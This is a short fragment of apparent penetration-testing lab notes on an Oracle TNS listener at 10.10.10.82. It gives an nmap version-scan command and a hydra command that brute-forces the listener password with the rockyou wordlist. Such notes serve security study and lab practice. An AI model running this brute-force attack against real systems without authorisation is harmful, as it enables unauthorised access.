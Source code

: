 Version
```
nmap --script "oracle-tns-version" -p 1521 -T4 -sV 10.10.10.82
```
![](../Attachments/Pasted%20image%2020210518195128.png)
Brute Force Listener
```
hydra -P /usr/share/wordlists/rockyou.txt -t 32 -s 1521 10.10.10.82 oracle-listener
```
